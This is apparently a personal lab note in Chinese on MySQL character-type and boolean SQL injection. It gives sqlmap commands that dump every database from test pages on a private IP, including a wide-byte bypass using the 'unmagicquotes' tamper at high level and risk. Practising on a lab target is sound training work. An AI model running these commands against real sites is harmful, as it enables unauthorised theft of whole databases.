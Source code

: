 

# MySQL 字符型 SQLi

### 依旧爆所有

```
python sqlmap.py -u http://192.168.126.138/sqli/02.php?id=1 --dump-all
```

没爆成功，说明不是一般字符型，可能加了转义，需要宽字节

```
python sqlmap.py -u "http://192.168.126.138/sqli/02.php?id=1" --dump-all --batch --tamper=unmagicquotes --level=5 --risk=3
```

![image-20250904190857414](images/image-20250904190857414.png)



# MySQL bool SQLi

直接梭哈

```
python sqlmap.py -u http://192.168.126.138/sqli/03.php?id=1 --dump-all
```
